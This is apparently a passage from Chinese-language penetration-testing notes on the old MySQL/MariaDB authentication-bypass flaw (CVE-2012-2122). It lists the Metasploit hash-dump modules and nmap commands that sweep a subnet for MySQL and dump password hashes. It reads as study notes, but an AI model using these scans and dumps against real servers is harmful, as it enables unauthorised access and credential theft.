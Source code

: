 > MySQL versions from 5.1.63, 5.5.24, 5.6.6 are not.

> MariaDB versions from 5.1.62, 5.2.12, 5.3.6, 5.5.23 are not.

**原理**
对于memcmp(a1,a2,10)，memcmp在两个字符串的\0之后继续比较,估计Haier有丶东西,	ref:	https://seclists.org/oss-sec/2012/q2/493

进msf, 因为中途退出了,第二次run提示"Host '-' is blocked because of many connection errors; unblock with 'mysqladmin flush-hosts'",提示ip被block了

![](IMG/res_mysql_hash_dump-1563094737649.jpg)

搜索网上的解法是 whereis mysqladmin, 再进到相应的目录实施它的提示命令,参看	https://www.cnblogs.com/susuyu/archive/2013/05/28/3104249.html

**利用**

1. msf

```
auxiliary/scanner/mysql/mysql_version
msf-auxiliary/scanner/mysql/mysql_authbypass_hashdump
```

2. zenmap
   建议先扫c段的MySQL,即按以下顺序来
   nmap -sV -p 3306 -T4 --script mysql-info [CIDR]
   nmap -sV -p 3306 -T2 --script ms-sql-dump-hashes,mysql-dump-hashes,mysql-info,mysql-vuln-cve2012-2122 [addr]
   直接开搞, 12分钟左右扫完一个c段

![](IMG/rsync_namp-1563094756987.jpg)

## nginx错误配置
